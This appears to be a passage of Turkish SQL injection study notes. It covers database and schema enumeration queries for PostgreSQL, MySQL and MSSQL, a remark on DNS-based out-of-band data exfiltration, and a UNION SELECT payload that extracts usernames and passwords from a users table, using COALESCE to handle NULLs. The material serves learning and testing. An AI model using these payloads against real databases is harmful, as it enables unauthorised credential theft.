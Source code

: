 	- DNS isteği sırasında `@p` içine büyük veri koyarsan, **istek başarısız olabilir** ya da **veri parçalanır.**
	- Ayrıca, DNS çözümleme sırasında bazı karakterler (örneğin boşluk, özel karakterler) geçersizdir ve veri bozulabilir.




**POSTGRESQL :**

PostgreSQL'de tablolar genellikle `public` adlı bir **şema (schema)** altında yer alır. Yani:

- `database` → içinde **schema** barındırır (örneğin: `public`, `admin`, `sales`)
- `schema` → içinde **table** barındırır

Bu yüzden `WHERE table_schema='public'` diyerek **kullanıcıya açık default tabloları** hedef alıyoruz. Database'de tabloları öğrenmek için 

```PostgreSql
-- Tüm veritabanı isimleri
SELECT datname FROM pg_database--

-- Mevcut veritabanındaki tüm şemalar
SELECT schema_name FROM information_schema.schemata;
```


##### POSTGRESQL NULL propagasyonu :

eğer birleştirmeye çalıştığın herhangi bir parça `NULL` ise, bütün sonuç `NULL` olur.

```sql
'a' || NULL || 'b'  →  NULL` 
```

Böyle durumlarda sorgunun devam etmesi ve çalışması için 
```sql
COALESCE(email, '') -- COALAESCE() eğer email değeri yok ise NULL yerine boş bir değer döner
-- Tam Örnek Sorgu 
UNION SELECT NULL, username || '~' || password || '~' || COALESCE(email, '') FROM users--
```






**MySQL :**

```MySql
-- Tüm veritabanı isimleri
SHOW DATABASES;
-- Mevcut veritabanındaki tüm şemalar
SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;
```





**Microsoft SQL Server (MSSQL)** :

```sql
-- Sunucudaki tüm veritabanları
SELECT name FROM sys.databases;
-- Geçerli veritabanındaki tüm şemalar
SELECT name AS schema_name FROM sys.schemas;
```
